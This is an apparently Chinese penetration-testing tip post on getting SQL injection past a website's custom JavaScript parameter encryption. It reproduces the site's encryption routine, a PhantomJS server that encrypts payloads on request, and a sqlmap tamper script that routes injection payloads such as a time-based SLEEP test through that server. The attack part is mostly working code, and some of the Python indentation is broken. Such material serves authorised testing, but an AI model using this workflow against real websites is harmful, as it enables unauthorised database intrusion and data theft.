



# JS加密注入绕过小技巧

在日常渗透工作中遇到网站相关参数使用了自实现的加密。


想要对其进行注入测试的话需要对其算法进行逆向解密，然后再进行注入。

使用phantomjs+jsEncrypter项目中phantomjs_server.js 起个数据加密接口对需要的字符串进行加密。节省大量时间不需要对算法使用python进行重新编写。

JavaScript加密算法

 展开源码

```
function encode16(str){
 str=str.toLowerCase();
 if (str.match(/^[-+]?\d*$/) == null){//非整数字符，对每一个字符都转换成16进制，然后拼接
 var s=str.split("");
 var temp="";
 for(var i=0;i<s.length;i++){
 s[i]=s[i].charCodeAt();//先转换成Unicode编码
 s[i]=s[i].toString(16);
 temp=temp+s[i];
 }
 return temp+"{"+1;//1代表字符
 }else{//数字直接转换成16进制
 str=parseInt(str).toString(16);
 }
 return str+"{"+0;//0代表纯数字
}

function produceRandom(n){
 var num="";
 for(var i=0;i<n;i++)
 {
 num+=Math.floor(Math.random()*10);
 }
 return num;
}

//主加密函数
function encrypt(str){
 var encryptStr="";//最终返回的加密后的字符串
 encryptStr+=produceRandom(3);//产生3位随机数

 var temp=encode16(str).split("{");//对要加密的字符转换成16进制
 var numLength=temp[0].length;//转换后的字符长度
 numLength=numLength.toString(16);//字符长度换算成16进制
 if(numLength.length==1){//如果是1，补一个0
 numLength="0"+numLength;
 }else if(numLength.length>2){//转换后的16进制字符长度如果大于2位数，则返回，不支持
 return "";
 }
 encryptStr+=numLength;

 if(temp[1]=="0"){
 encryptStr+=0;
 }else if(temp[1]=="1"){
 encryptStr+=1;
 }

 encryptStr+=temp[0];

 if(encryptStr.length<20){//如果小于20位，补上随机数
 var ran=produceRandom(20-encryptStr.length);
 encryptStr+=ran;
 }
 return encryptStr;
}
```

phantomjs_server.js

 展开源码

```sql
/**
 * author: c0ny1
 * date: 2017-12-16
 * last update: 2019-5-30 11:16
 */
var fs = require('fs');
var logfile = 'jsEncrypter.log';
var webserver = require('webserver');
server = webserver.create();
var host = '203.0.113.1';
var port = '1664';
// 加载实现加密算法的js脚本
var wasSuccessful = phantom.injectJs('encrypt.js');/*引入实现加密的js文件*/
// 处理函数
function js_encrypt(payload){
 //var newpayload;
 /**********在这里编写调用加密函数进行加密的代码************/
 var newpayload = encrypt(payload);
 /**********************************************************/
 return newpayload;
}
if(wasSuccessful){
 console.log("[*] load js successful");
 console.log("[!] ^_^");
 console.log("[*] jsEncrypterJS start!");
 console.log("[+] address: http://"+host+":"+port);
}else{
 console.log('[*] load js fail!');
}
var service = server.listen(host+':'+port,function(request, response){
 try{
 if(request.method == 'POST'){
 var payload = request.post['payload'];
 var encrypt_payload = js_encrypt(payload);
 var log = payload + ':::' + encrypt_payload;
 console.log('[+] ' + log);
 fs.write(logfile,log + '\n', 'w+');
 response.statusCode = 200;
 response.write(encrypt_payload.toString());
 response.close();
 }else{
 response.statusCode = 200;
 response.write("^_^\n\rhello jsEncrypter!");
 response.close();
 }
 }catch(e){
 //console.log('[Error]'+e.message+' happen '+e.line+'line');
 console.log('\n-----------------Error Info--------------------')
 var fullMessage = "Message: "+e.toString() + ':'+ e.line;
 for (var p in e) {
 fullMessage += "\n" + p.toUpperCase() + ": " + e[p];
 }
 console.log(fullMessage);
 console.log('---------------------------------------------')
 console.log('[*] phantomJS exit!')
 phantom.exit();
 }
});
```

启动tools

phantomjs.exe phantomjs_server.js

编写Sqlmap tamper脚本

```python
#!/usr/bin/env python
"""
Copyright (c) 2006-2021 sqlmap developers (https://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""
from lib.core.convert import encodeBase64
from lib.core.enums import PRIORITY
import requests
__priority__ = PRIORITY.LOW
def dependencies():
pass
def enpayload(payload):
burp0_url = "http://203.0.113.1:1664/"
burp0_headers = {"Content-Type": "application/x-www-form-urlencoded"}
burp0_data = {"payload": payload}
res = requests.post(burp0_url, headers=burp0_headers, data=burp0_data,timeout=5)
return res.text
def tamper(payload, **kwargs):
 """
    调用phantomjs的web服务对payload进行加密发送
    >>> tamper("1' AND SLEEP(5)#")
    '8850207b695707800110'
    """
return enpayload("2021"+payload) if payload else payload
```

Sqlmap调用脚本进行注入

